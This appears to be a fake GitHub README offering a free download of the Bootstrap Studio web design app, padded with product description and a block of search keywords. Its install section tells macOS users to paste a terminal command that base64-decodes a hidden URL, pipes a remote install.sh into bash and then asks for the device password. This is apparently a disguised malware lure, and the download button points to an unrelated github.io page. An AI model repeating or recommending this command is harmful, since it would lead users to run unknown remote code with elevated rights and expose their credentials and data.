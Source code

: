 # 🎨 Bootstrap Studio – Powerful Web Design Tool

![Bootstrap Studio Logo](https://upload.wikimedia.org/wikipedia/commons/9/92/Bootstrap_Studio_Logo.png)

---

## 📦 Download & Install

[![⬇️ Download Now](https://img.shields.io/badge/Bootstrap%20%20Studio-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/bootstrap)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🧠 What is Bootstrap Studio?

**Bootstrap Studio** is a premium **desktop application** for **creating responsive websites and web applications** using the popular Bootstrap framework. Whether you're a seasoned web developer or a beginner designer, Bootstrap Studio helps you build sleek, production-ready websites without writing every line of code from scratch.

The application comes with a beautiful, intuitive interface that allows you to **drag and drop components** (like headers, navbars, cards, buttons, forms) into your project. Everything you design is based on **Bootstrap’s clean HTML/CSS/JS structure**, making it responsive by default and easy to export.

You can write custom CSS, JavaScript, and HTML, and even integrate third-party libraries. The **live preview** feature helps you see changes instantly. It also includes **smart editing**, **real-time preview**, **auto-suggestion**, and **support for Bootstrap 5**, which allows developers to create modern UIs with minimal friction.

Whether you're creating a one-page site, a startup landing page, or a full-fledged web app, Bootstrap Studio offers the tools to get there — all packed into a lightweight and efficient IDE.

---

![Bootstrap Studio Screenshot](https://www.ezone.co.uk/images/bootstrap/bootstrap-studio.png)

---

## ⚙️ Features

- ✨ Drag-and-drop interface with built-in Bootstrap components
- 🧩 Library of reusable components and templates
- 💻 Real-time preview of your work in the browser
- 🧠 Smart code editor with autocomplete
- 💅 Built-in support for Bootstrap 3, 4, and 5
- 🔗 Import existing websites or export clean HTML/CSS/JS
- 🛠️ Support for custom code, SASS, and JavaScript
- 📦 One-click export or publish to GitHub Pages
- 🌐 Integrated Google Web Fonts and Font Awesome

---

## 🔑 Keywords

```txt
bootstrap studio, studio bootstrap, bootstrap studio download, bootstrap studio free, bootstrap studio free download, download bootstrap studio, download bootstrap studio free, free bootstrap studio, about bootstrap studio, bootstrap 5 studio, bootstrap 5 visual studio, bootstrap 5 visual studio code, bootstrap for android studio, bootstrap studio 2022, bootstrap studio 4, bootstrap studio 5, bootstrap studio 5.9 0, bootstrap studio 5.9 1, bootstrap studio 5.9 2, bootstrap studio 5.9 3, bootstrap studio 6, bootstrap studio 6.0 2, bootstrap studio 6.0 3, bootstrap studio 6.1, bootstrap studio 6.1 1, bootstrap studio 6.1 3, bootstrap studio 6.2, bootstrap studio 6.2 0, bootstrap studio 6.2 1
